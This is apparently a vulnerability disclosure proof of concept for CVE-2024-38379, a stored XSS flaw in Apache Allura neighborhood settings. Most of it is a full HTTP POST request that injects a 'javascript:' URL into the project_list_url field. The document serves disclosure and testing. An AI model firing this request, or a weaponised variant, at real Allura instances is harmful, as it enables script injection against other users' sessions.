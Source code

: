 # Exploit Title: CVE-2024-38379 Apache Allura Stored authenticated XSS

# Exploit Author: [Ömer Akincir](https://www.linkedin.com/in/omerakincir/)

# Team: [Mert Özkan](https://www.linkedin.com/in/mrtozkn/)

# CVE-ID: CVE-2024-38379

# Version: 1.4.0 ~ 1.17.0

# Vuln Details: Stored XSS  

# CVSSv3: 6.9 (Medium)
  - CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:C/C:H/I:L/A:N

# Description: 

  Apache Allura's neighborhood settings are vulnerable to a Stored XSS attack. Only neighborhood admins can access these settings, so the scope of risk is limited to configurations where neighborhood admins are not fully trusted.
    
# Impact: 
  
  An attacker can trigger Stored XSS using this Proof Of Concept.
  
# PoC:  
```
POST /adobe/_admin/update HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------4577509424871948941587615304
Content-Length: 1498
Origin: 
Connection: close
Referer: http://ip/adobe/_admin/overview
Cookie: 
Upgrade-Insecure-Requests: 1

-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="name"

Adobe
-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="redirect"


-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="show_title"

on
-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="css"


-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="project_template"


-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="icon"; filename=""
Content-Type: application/octet-stream


-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="tracking_id"


-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="project_list_url"

javascript:alert("Ömer 'WASP' Akincir")
-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="anchored_tools"


-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="prohibited_tools"


-----------------------------4577509424871948941587615304
Content-Disposition: form-data; name="_session_id"

de6e814d01c354af60dc5919e5cfb8fce5aa6cb307999e49507d4ddcb38c75c884a6be46001ddd71
-----------------------------4577509424871948941587615304--
```

# References:
  - [Apache.org](https://allura.apache.org/posts/2024-allura-1.17.1.html)
  - [CVE.org](https://www.cve.org/CVERecord?id=CVE-2024-38379)
